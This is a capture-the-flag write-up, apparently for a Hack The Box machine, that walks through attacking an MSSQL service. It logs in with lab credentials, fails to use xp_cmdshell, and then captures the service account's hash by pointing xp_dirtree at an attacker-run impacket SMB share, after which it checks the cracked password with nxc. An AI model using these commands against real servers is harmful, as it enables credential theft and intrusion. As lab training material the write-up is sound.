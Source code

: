 
### Port 1433

Microsoft SQL Server 2019 15.00.2000

Connecting MSSQL with:

```bash
mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb
```

We can see databases using the following command:

```sql
SELECT * FROM master.dbo.sysdatabases;
```

There are 4 databases on the target which are just default databases:

![image.png](image%207.png)

Which means we should search for other way of exploitation:

- Product  version : 10.0.17763 - **no public exploits found.**
- Command Execution is **not allowed**
    
    ```sql
    xp_cmdshell whoami
    ```
    
    ![image.png](image%208.png)
    
    Trying to enable it returns error:
    
    ```sql
    EXECUTE sp_configure 'show advanced options', 1
    ```
    
    ![image.png](image%209.png)
    
- Capturing **sql_svc hash**

```bash
sudo impacket-smbserver share ./ -smb2support
```

```bash
exec xp_dirtree '\\10.10.14.6\share\', 1, 1
```
![image.png](image%2010.png)

Checking connection with netxec:

```bash
sudo nxc smb $IP -u sql_svc -d sequel.htb -p REGGIE1234ronnie --shares
```

![image.png](image%2011.png)

